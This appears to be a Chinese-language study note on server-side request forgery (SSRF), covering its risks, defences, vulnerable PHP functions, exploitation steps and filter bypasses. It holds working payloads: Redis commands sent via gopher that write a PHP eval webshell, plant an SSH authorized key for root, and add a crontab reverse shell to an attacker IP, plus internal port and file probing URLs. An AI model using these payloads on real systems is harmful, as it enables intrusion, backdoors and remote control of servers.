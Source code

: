 ## SSRF

### 1. 定义

* SSRF(Server-side Request Forgery，服务端请求伪造)是一种**由攻击者构造形成**，**由服务端发起请求**的安全漏洞，一般情况下，SSRF攻击的**目标是从外网无法访问的内网系统**。正是由于它是**由服务端发起**的，所以他能够请求到**与他相连而与外网隔离**的内部系统

### 2. 危害

> 1. 端口扫描
> 2. 内网Web应用指纹识别
> 3. 攻击内网Web应用
> 4. 读取本地文件

### 3. 防御

> 1. 限制请求的**端口只能为Web端口**，只允许访问HTTP和HTTPS的请求
> 2. 设置**白名单**，或**限制内网IP**，以防止对内网进行攻击
> 3. 禁止**30x跳转**
> 4. 屏蔽返回的详细信息

### 4. 相关函数

* 涉及到**网络访问**，**支持伪协议的网络读取**的函数

> 1. file_get_content()
>    * 把文件**写入字符串**，若为内网url的文件，**会先读出来再写入**
> 2. curl_exec()
>    * 常通过**file**、**dict**、**gopher**协议来渗透
> 3. fsockopen()
>    * 打开一个**网络连接**或**Unix套接字连接**

![curl_exec](http://113.45.142.235:9001/laffrex/pictures/curl_exec()%E6%B6%89%E5%8F%8A%E5%8D%8F%E8%AE%AE.png)

****

### 5. 漏洞利用

#### (1). 端口扫描

* 当设置参数URL为内网地址时，会**泄露内网信息**，比如内网的某个服务是否开放

  ```html
  ?url=ip:port
      <!--开放端口-->
      	返回服务信息，或是403报错
      <!--未开放端口-->
      	返回404
  ```

![端口未开放](http://113.45.142.235:9001/laffrex/pictures/端口未开放.png)

![端口已开放](http://113.45.142.235:9001/laffrex/pictures/端口已开放.png)

****

#### (2). 获取正常文件

```
http://192.168.71.15/ssrf3.php?url=http://www.baidu.com/robots.txt
```

![读取正常文件](http://113.45.142.235:9001/laffrex/pictures/读取正常文件.png)

****

#### (3). 读取系统本地文件

* 利用**file协议**可以**任意读取**系统本地文件

  ![读取系统本地文件](http://113.45.142.235:9001/laffrex/pictures/%E8%AF%BB%E5%8F%96%E7%B3%BB%E7%BB%9F%E6%9C%AC%E5%9C%B0%E6%96%87%E4%BB%B6.png)

#### (4). 内网Web应用指纹识别

* 大多数Web应用框架都有一些**独特的文件和目录**，通过这些文件可以**识别出应用的类型**，甚至**详细的版本**，进而作出进一步针对攻击

```cmd
#探测是否安装了phpmyadmin
http://192.168.71.15/ssrf3.php?url=http://localhost/phpmyadmin/README
```

#### (5). 端口探测

> * 由于XXE漏洞可以利用**http协议**，故**利用该http请求去探查内网**，进行SSRF攻击
> * 可以根据响应时间/长度判断端口是否开放

****

### 6. Redis+gopher

#### (2). Redis条件

> 1. **未授权访问**，在访问redis数据库时，**不需要提供用户名和密码**，或**弱口令**
> 2. 具有root权限
> 3. 可以读写文件
> 4. 默认端口号为：**6379**
>

****

#### (3)方法

##### a. 绝对路径写Webshell

###### ①前提

* 需要知道Web的绝对路径

###### ②构造payload

1. redis命令

   ```
   flushall
   set 1 '<?php eval($_GET["cmd"]); ?>'
   config set dir /var/www/html
   config set dbfilename shell.php
   save
   ```

****

##### b. 写SSH公钥

###### ①前提

* 目标机开启SSH服务

###### ②说明

* 如果.ssh目录存在，则直接写入~/.ssh/authorized_keys，如果不存在，则利用crontab创建该目录

###### ③方法

* 本地生成RSA公钥私钥对，将公钥通过redis写入~/.ssh/authorized_keys，实现SSH免密登录

###### ④构造payload

1. redis命令

   ```
   flushall
   set 1 '生成的RSA公钥私钥对'
   config set dir /root/.ssh/
   config set dbfilename authorized_keys
   save
   ```

****

##### c. 写crontab计划任务反弹shell

###### ①前提

* **Centos系统**

* crontab定时文件位置

  | 目录                          | 说明                                                         |
  | ----------------------------- | ------------------------------------------------------------ |
  | /etc/crontab                  | 一定存在的文件                                               |
  | /etc/cron.d/*                 | 将任意文件写入到该目录下，效果和crontab相同，利用这个目录可以做到不覆盖任何其他文件的情况下进行反弹shell |
  | /var/spool/cron/root          | centos系统下root用户的cron文件                               |
  | /var/spool/cron/crontabs/root | debian系统下root用户的cron文件                               |

###### ②payload

```bash
flushall
set 1 '\n\n*/1 * * * * bash -i >& /dev/tcp/[反弹机IP]/[port] 0>&1\n\n'
config set dir /var/spool/cron
config set dbfilename root
save
```

##### d. 主从复制RCE

****

### 7. 绕过

#### (1). 限制域名

> 1. 采用http基本身份认证的绕过方式，即使用@绕过，如：http://www.aaa.com@www.bbb.com@www.ccc.com
>
> 2. 在对@的解析域名中，**不同的处理函数**存在**处理差异**，如：PHP的parse_url中会识别www.ccc.com，而libcurl则识别为www.bbb.com

#### (2). 限制请求ip

> 1. 短网址绕过
> 2. 特殊域名
>    * xip.io可以指向任意域名，即``127.0.0.1.xip.io =>  127.0.0.1`
> 3. 进制转换
>    * `127.0.0.1 => 0x7f.0.0.1`
>

#### (3). 限制请求为http

> 1. 采取302跳转，使用302跳转地址
> 2. 采取短地址

